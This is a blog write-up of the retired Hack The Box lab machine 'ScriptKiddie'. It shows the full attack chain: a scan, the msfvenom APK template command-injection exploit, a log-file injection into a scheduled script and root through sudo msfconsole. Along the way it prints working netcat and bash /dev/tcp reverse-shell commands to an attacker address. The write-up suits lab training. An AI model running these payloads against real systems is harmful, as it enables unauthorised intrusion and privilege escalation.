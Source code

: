 ```yaml
---
layout: single
title: "Hackthebox write-up: ScriptKiddie"
namespace: htb-scriptkiddie
category: Writeup
tags: HackTheBox htb-easy htb-linux
date: 2021-06-05 16:00:00
header:
   teaser: https://i.imgur.com/wHnMfBz.png
---
```


Hello guys!

This week's machine will be **ScriptKiddie**, another easy-rated Linux box from [Hack The Box](https://www.hackthebox.eu), created by [0xdf](https://app.hackthebox.eu/users/4935).<!--more-->

:information_source: **Info**:  Write-ups for Hack The Box machines are posted as soon as they’re retired.
{: .notice--info}

![ScriptKiddie](https://i.imgur.com/W5wv9JE.png){: .align-center}

## Enumeration

As usual, started running a `nmap` quick scan, to see which services were published in this machine.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.226                                                                   

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-24 14:05 -03
Nmap scan report for 10.10.10.226
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.94 seconds
```

### 5000/TCP - HTTP Service

Once accessed the published page, noticed some hacking tools published making easier to a script kiddie to play with hacking, allowing you to scan an IP using `nmap`, create a `msfvenom` payload or search for exploits using `searchsploit`.

I've tried several ways to inject command in these forms, but none of the attempts succeeded. I have even found an interesting tool called [commixproject/commix](https://github.com/commixproject/commix) in GitHub that automates this process, but had no luck this time.

Looking for vulnerabilities in the tools used by the app (`nmap`, `msfvenom`, `searchsploit`), I have found one related to `msfvenom`, as below:

```bash
$ searchsploit msfvenom
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection | multiple/local/49491.py
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Initial access and User flag

After changing the python script available in searchsploit, using the desired payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`, I have found some errors during the execution of the binary `keytool`, once it tries to sign an APK file with the payload in the Common Name but, as there was a `+` in the base64 encoded content, made a quick change to encode it twice, allowing me to create an evil APK to be uploaded to the tool and exploit the vulnerability

```python
# Change me
payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
if '+' in payload_b64:
    payload_b64 = b64encode(payload_b64.encode()).decode()
    decode = '| base64 -d | base64 -d'
else:
    decode = '| base64 -d'

dname = f"CN='|echo -n {payload_b64} {decode} | sh #"
```

Below we can see the output of the execution which generates the `evil.apk` file.

```bash
$ python3 49491.py                                                                                                               
[+] Manufacturing evil apkfile
Payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
-dname: CN='|echo -n Y20wZ0wzUnRjQzltTzIxclptbG1ieUF2ZEcxd0wyWTdZMkYwSUM5MGJYQXZabnd2WW1sdUwzTm9JQzFwSURJK0pqRjhibU1nTVRBdU1UQXVNVFF1TVRNMklEUTBORE1nUGk5MGJYQXZaZz09 | base64 -d | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpt7qr4ner/evil.apk
Do: msfvenom -x /tmp/tmpt7qr4ner/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

After obtaining the evil payload, started one listener and selected the options suggested in the payload output, where selecting the android operating system would result in the payload `android/meterpreter/reverse_tcp` we aim to abuse based in the existing vulnerability, as well as specifying the lhost as 127.0.0.1 but this shouldn't impact the way exploit will work.

![Submiting the evil payload](https://i.imgur.com/hWgxfFw.png){: .align-center}

After hitting the **Generate** button, a reverse shell was returned, as seen below in this screenshot.

![reverse shell returned](https://i.imgur.com/VAYnB2r.png){: .align-center}

Inspecting the session obtained, with the credentials running the web application, in this case user `kid`, was possible to obtain the user flag, as the file resided in it's home directory.

```bash
kid@scriptkiddie:~$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~$ cat /home/kid/user.txt
<redacted>
```

## Root flag

After running `linenum.sh` to automate the enumeration, noticed taht there was another user called `pwn`, possibly with more privileges than the user we currently have. As we had access to it's home directory, found a file called `scanloosers.sh` with the following content:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

As this script reads the content of a file in the current's user home directory (`/home/kid/logs/hackers`) and issues an `nmap` command, edited the content of this file in a way we would inject a reverse shell command with the user running this script, possibly `pwn`.

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' #" > ~/logs/hackers
```

After setting up a new listener and changing the `hackers` file with the above-mentioned content, another session was obtained, this time with the user `pwn` :smile:

Enumerating the box again, this time with the new user account, noticed by running `linpeas.sh` that this user has access to start `msfconsole` in a privileged way.

```output
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Once started it using `sudo`, I was able to issue commands as user `root`, as well as read the content of file `/root/root.txt` and obtain the final flag for this machine.

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q
msf6 > id
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
msf6 > cat /root/root.txt
[*] exec: cat /root/root.txt

<redacted>
msf6 >
```

Hope this was somehow useful!

See you in the next post :smiley:
